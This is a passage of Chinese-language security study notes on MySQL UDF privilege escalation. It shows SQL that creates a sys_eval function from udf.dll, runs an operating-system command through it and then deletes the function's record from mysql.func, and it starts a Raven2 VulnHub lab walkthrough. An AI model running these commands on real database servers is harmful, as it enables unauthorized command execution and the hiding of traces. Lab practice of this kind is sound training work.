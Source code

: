 `crate function sys_eval returns string soname 'udf.dll';`



5、执行命令

`select sys_eval(command); drop function sys_eval;`

`delete from mysql.func where name = 'sys_eval';`

![image](004_第四周—数据库系统功能相关学习/Image_054-1567178982005.png)

以Raven2靶机的udf[提权作为例子](https://www.vulnhub.com/entry/raven-2%2C269/)[靶机下载](https://www.vulnhub.com/entry/raven-2%2C269/)

存活扫描：

netdiscover

端口扫描：



![image](004_第四周—数据库系统功能相关学习/Image_056-1567178982005.jpg)

web服务踩点：



![image](004_第四周—数据库系统功能相关学习/Image_057-1567178982005.jpg)
